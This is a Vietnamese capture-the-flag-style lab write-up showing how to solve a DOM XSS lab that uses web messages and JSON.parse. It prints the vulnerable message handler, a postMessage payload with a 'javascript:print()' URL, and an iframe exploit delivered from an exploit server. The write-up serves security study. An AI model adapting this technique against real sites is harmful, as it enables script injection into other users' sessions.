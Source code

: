 >**"Deliver exploit to victim"** và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/HJA5w6GU0.png)

# **5. Lab: DOM XSS using web messages and JSON.parse**
>This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function:
>![image](https://hackmd.io/_uploads/Ska6fdS80.png)

>Ứng dụng tạo 1 iframe với src là `d.url` từ web message d sau khi được parse bằng `JSON.parse()` nếu như `d.type=="load-channel"`: ![image](https://hackmd.io/_uploads/B1-WUdr8R.png)
```
                   <script>
                        window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
                    </script>
```

>Như vậy ta có tạo payload như sau với url `javascript:print()` để trigger XSS:
```
var payload = '{"type":"load-channel", "url": "javascript:print()"}'
postMessage(payload)
```

>Test thử trên console và thấy được hàm **print()** được trigger thành công!
>![image](https://hackmd.io/_uploads/rypaUOHLR.png)

>Sử dụng iframe tương tự các bài trên với payload đã tạo và lưu vào exploit-server:
`<iframe src="<LAB-DOMAIN>" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
`
![image](https://hackmd.io/_uploads/rysUPdBIC.png)
